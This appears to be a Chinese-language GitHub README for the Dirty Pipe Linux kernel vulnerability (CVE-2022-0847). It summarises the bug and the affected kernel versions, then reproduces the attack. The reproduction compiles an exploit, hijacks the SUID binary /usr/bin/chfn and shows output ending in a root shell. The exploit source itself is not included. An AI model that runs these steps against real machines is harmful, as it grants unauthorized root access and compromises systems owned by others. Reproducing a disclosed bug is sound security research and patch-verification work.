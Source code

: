 漏洞介绍:
此漏洞发现在Linux内核版本5.10.101/5.15.24/5.16.10，并归类为严重漏洞。攻击者通过利用此漏洞可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 
CVE-2022-0847的漏洞原理类似于CVE-2016-5195脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”。

影响范围:
5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102

复现：
$ uname -a
Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux

gcc -o exp cve-2022-0847.c

chmod +x exp

./exp /usr/bin/chfn
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),133(scanner),141(kaboxer),1000(kali)
